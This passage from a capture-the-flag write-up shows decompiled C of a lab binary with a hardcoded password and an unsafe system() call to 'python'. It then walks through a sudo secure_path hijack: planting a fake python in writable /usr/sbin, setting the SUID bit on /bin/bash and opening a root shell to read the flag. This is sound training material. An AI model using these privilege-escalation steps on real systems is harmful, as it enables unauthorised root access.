

As we can see, it wants the password `password`, and then executes the command `python /home/Orka/Desktop/transfer.py $n`.

```C
printf("Enter the password : ");
    char buf;
    gets(&buf);
    
    if (!strcmp(&buf, "password"))
    {
        puts("Access Granted...");
        sleep(1);
        puts("\t\t\tUser Manual:\t\t\t");
        puts("Maximum Amount Of BitCoins Possible To Transfer at a time : 9 ");
        puts("Amounts with more than one number will be stripped off! ");
        puts("And Lastly, be careful, everything is logged :) ");
        printf("Amount Of BitCoins : ");
        char var_88;
        __isoc99_scanf("%c", &var_88);
        
        if ((*__ctype_b_loc())[var_88] & 0x800)
        {
            char var_78[0x64];
            sprintf(&var_78, "python /home/Orka/Desktop/transfer.py %c", var_88);
            system(&var_78);
        }
        else
            puts("\n Sorry, This is not a valid amount! ");
    }
    else
        puts("Access Denied... ");
```

Using linpeas, we can see that we are inside a group that can modifies the folder `/usr/sbin/`.





The vulnerabilty is that this is shown inside the `secure_path` of the `sudo -l` output:
```bash
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin                                                     
```
 
we can check where is the binary `python` located:
```bash
Orka@osboxes:~$ which python
/usr/bin/python
```

`/usr/sbin` comes before! So we can create our own `python` and execute commands as root.
```bash
echo -e '#!/bin/bash\nid' > /usr/sbin/python
chmod +x /usr/sbin/python
```
and then, just execute with sudo:
```bash
sudo /home/Orka/Desktop/bitcoin
```



we can see the command id being exeucted.

Now, let's put this instead `chmod u+s /bin/bash`:
```bash
echo -e '#!/bin/bash\nchmod u+s /bin/bash' > /usr/sbin/python
chmod +x /usr/sbin/python
```

and then, just spawn the shell as root, and grab the root flag:
```bash
Orka@osboxes:~$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1109564 Jul 12  2019 /bin/bash
Orka@osboxes:~$ bash -p
bash-4.3# cd /root
bash-4.3# cat /root/root.txt 
f4e788f87cc3afaecbaf0f0fe9ae6ad7
```




